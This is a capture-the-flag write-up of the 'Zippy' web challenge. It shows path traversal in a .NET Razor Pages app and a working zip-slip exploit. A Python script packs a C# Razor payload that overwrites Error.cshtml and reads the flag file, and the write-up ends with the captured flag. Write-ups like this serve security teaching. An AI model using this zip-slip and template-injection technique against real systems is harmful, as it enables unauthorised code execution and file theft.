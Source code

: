 ## Zippy

Opening the webapp we are greeted with a site seems to take zip files, unpack them, and allow users to view directories only. We can view the /**Browse** page and quickly find that input of `../` allows file path traversal, and we can see flag.txt contained a level above our .current directory.
However, we cannot view or trigger these files/pages. So the files are not available for download or viewing by URL. So we are likely limited to viewing certain web pages.We likely need to find an RCE exploit. But we can enumerate further and find that web pages are located in `../Pages`. But even more interesting is the fact we can access `../../root`. So this web app must have root privs already. Bad idea.

Enumerating further will lead eventually to the /**About** and /**Log** pages. Now at first there is not much in Logs, but the About section states something interesting:
#### Application Info
- Version: 1.0.0
- Framework: .NET 6.0
- Powered by Razor Pages | **Now with runtime compilation!**

**Razor Pages**. Interesting, we did find out the web pages are .cshtml. A quick search online and I quickly found a helpful [resource](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/). It appears that Razor Pages are vulnerable to simple C# injection. But where to inject? We do not have a text box to input a payload. So let's keep looking around.

Let us try to see what happens if we upload a zip on **/Upload** (asdf for ID and Name)
`File uploaded successfully to /app/wwwroot/uploads/asdf for account asdf (ID: asdf)`
Good to know. Let's check the logs. *Snipped the timestamps.*
```
Saving uploaded file to /app/wwwroot/uploads/asdf              
Saving uploaded ZIP file to /app/wwwroot/uploads/asdf/test.zip              
Extracting ZIP file /app/wwwroot/uploads/asdf/test.zip without path traversal checks.              
Extracting file to /app/wwwroot/uploads/asdf/test.txt
```
***WITHOUT*** traversal checks eh? Well with the LFI we found and the name Zippy, we can try to do a zip slip exploit with a payload in C# like we saw in that PoC, tailored to our needs. Honestly can probably revshell, but instead of portfwding and all that, why not try to view it on the app itself? After checking the full path with the /**Browse** page, it appears the web pages themselves are .cshtml files located in `/app/Pages` and we can see familiar ones like About/Browse/Upload/Error/etc. We can certainly access these.

SO we now have a plan. 
1. Zip slip a Razor Page payload in C#
2. Force app to unzip injected cshtml in specific location
3. I decided to try and replace Error.cshtml as it would not affect other functions we are using. 
4. All of this together explains the script I made, which generates the necessary zip slip files with our payload, then extracts our malicious page where Error is located, replacing it with our own version.
So lets read the flag.txt, and put it on the mf web page. EZ.
```python
import zipfile

zip_filename = 'smolW33n3r.zip'
gl0ryh0le = '../../../../app/Pages/Error.cshtml' # An accessible web page is replaced with ours

gh0st_l0ad = '''
@page
@{
    // Reads flag.txt
    var flagContent = System.IO.File.ReadAllText("/app/flag.txt");
}
<center>
<h1>smol indeed</h1>
<p>@flagContent</p>
</center>
'''
# ur load goes in the hole
with zipfile.ZipFile(zip_filename, 'w') as zipf:
    zipf.writestr(gl0ryh0le, gh0st_l0ad)

print(f"Created {zip_filename} successfully.")
```
Upload the generated zip. Then check the logs:
```powershell
Saving uploaded file to /app/wwwroot/uploads/asdf
Saving uploaded ZIP file to /app/wwwroot/uploads/asdf/smolW33n3r.zip
Extracting ZIP file /app/wwwroot/uploads/asdf/smolW33n3r.zip without path traversal checks.
Extracting file to /app/Pages/Error.cshtml
```
Well now **THAT** is looking good. Let's now try to access /**Error**:

**smol indeed**
`flag{a074eb7973c4c718790baefc096654dd}`
